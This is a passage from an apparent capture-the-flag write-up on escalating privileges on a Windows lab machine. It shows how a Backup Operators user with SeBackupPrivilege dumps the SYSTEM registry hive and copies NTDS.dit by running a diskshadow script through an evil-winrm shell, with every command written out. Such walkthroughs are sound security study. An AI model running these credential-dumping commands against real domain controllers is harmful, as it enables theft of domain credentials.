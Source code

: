 
## Dumping domain credentials
Since we were able to identify that caroline is apart of the Backup Operators group & has SeBackupPrivilege enabled, the rest of the box should be relatively straight forward. We have to dump HKLM\System & NTDS.dit:
```bash
reg save hklm\system system.save
```
![shell3](../assets/posts/baby/shell3.png)

As we are not administrator yet, using vssadmin isn't going to work. Researching ways to dump NTDS.dit lead to the discovery of [this](https://github.com/ustayready/tradecraft/blob/master/offensive-security/credential-access-and-credential-dumping/ntds.dit-enumeration.md) blog post. It describes how diskshadow can be used to copy the C:\ drive to eventually copy NTDS.dit.

First we have to create a text file:
```bash
set verbose on 
set metadata C:\temp\shadowdata.cab 
set context persistent 
add volume C: alias shadowdrive 
create 
expose %shadowdrive% z: 
```

Then upload the text file to our evil-winrm shell, make a new temp directory and execute diskshadow:
```bash
upload backup.txt
mkdir C:\temp
diskshadow /s backup.txt
```
![shell4](../assets/posts/baby/shell4.png)
![shell5](../assets/posts/baby/shell5.png)
